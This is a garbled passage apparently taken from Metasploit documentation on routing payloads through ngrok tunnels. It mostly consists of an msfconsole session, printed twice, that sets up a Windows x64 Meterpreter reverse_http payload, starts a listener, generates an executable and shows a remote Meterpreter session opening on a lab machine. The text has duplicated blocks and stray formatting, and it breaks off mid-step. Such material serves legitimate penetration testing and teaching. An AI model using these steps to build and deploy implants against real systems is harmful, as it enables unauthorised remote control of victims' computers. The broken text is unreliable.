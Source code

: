 # Overview
## Usage with payloads
### Payload Demo
ngrok side:
```msf
msf6 > use payload/windows/x64/meterpreter/reverse_http
msf6 payload(windows/x64/meterpreter/reverse_http) > set LHOST 192.0.2.1
LHOST => 192.0.2.1
msf6 payload(windows/x64/meterpreter/reverse_http) > set LPORT 17511
LPORT => 17511
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindPort 4444
ReverseListenerBindPort => 4444
msf6 payload(windows/x64/meterpreter/reverse_http) > to_handler 
[*] Payload Handler Started as Job 2
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] Started HTTP reverse handler on http://127.0.0.1:4444

msf6 payload(windows/x64/meterpreter/reverse_http) > generate -f exe -o ngrok_payload.exe
[*] Writing 7168 bytes to ngrok_payload.exe...
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] http://127.0.0.1:4444 handling request from 127.0.0.1; (UUID: ghzekibo) Staging x64 payload (202844 bytes) ...
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55468) at 2024-09-10 16:43:58 -0400

msf6 payload(windows/x64/meterpreter/reverse_http) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter >
```

`generate`

`msf
msf6 > use payload/windows/x64/meterpreter/reverse_http
msf6 payload(windows/x64/meterpreter/reverse_http) > set LHOST 192.0.2.1
LHOST => 192.0.2.1
msf6 payload(windows/x64/meterpreter/reverse_http) > set LPORT 17511
LPORT => 17511
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 payload(windows/x64/meterpreter/reverse_http) > set ReverseListenerBindPort 4444
ReverseListenerBindPort => 4444
msf6 payload(windows/x64/meterpreter/reverse_http) > to_handler 
[*] Payload Handler Started as Job 2
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] Started HTTP reverse handler on http://127.0.0.1:4444

msf6 payload(windows/x64/meterpreter/reverse_http) > generate -f exe -o ngrok_payload.exe
[*] Writing 7168 bytes to ngrok_payload.exe...
msf6 payload(windows/x64/meterpreter/reverse_http) > 
[*] http://127.0.0.1:4444 handling request from 127.0.0.1; (UUID: ghzekibo) Staging x64 payload (202844 bytes) ...
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55468) at 2024-09-10 16:43:58 -0400

msf6 payload(windows/x64/meterpreter/reverse_http) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter >
`

` datastore options.

**NOTE:** Free ngrok plans can only open one tcp tunnel at a time. This means that if the module is an exploit that a
tcp tunnel for a reverse-connection payload will not be able to be opened at the same time. Use a second ngrok account
to open a second tcp tunnel and follow the steps above for the payload configuration.

1. Start a TCP tunnel using ngrok: `

